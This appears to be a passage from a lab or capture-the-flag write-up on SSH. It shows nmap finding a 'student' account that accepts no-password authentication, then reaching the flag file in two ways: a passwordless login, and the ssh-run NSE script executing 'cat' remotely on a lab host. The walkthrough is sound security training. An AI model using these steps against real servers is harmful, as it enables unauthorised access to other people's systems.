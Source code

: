 ![nmap ssh-auth-methods](.gitbook/assets/image-20230216145445323.png)

> 📌 `none_auth` authentication method for *`student`* user is used.
>
> 📌 `publickey` and `password` authentication method for *`admin`* user is used.

```bash
ssh student@192.8.3.3
```

```bash
student@victim-1:~$ ls
	FLAG
student@victim-1:~$ cat FLAG
```

- Or use [nmap ssh-run script](https://nmap.org/nsedoc/scripts/ssh-run.html) to run remote command on SSH server

```bash
nmap --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG, ssh-run.username=student, ssh-run.password=" 192.8.3.3
```

```bash
NSE: [ssh-run] Authenticated
NSE: [ssh-run] Running command: cat /home/student/FLAG
NSE: [ssh-run] Output of command: {FLAG_content}

Nmap scan report for target-1 (192.8.3.3)
Host is up (0.000011s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-run: 
|   output: 
|_    {FLAG_content}\x0D
```
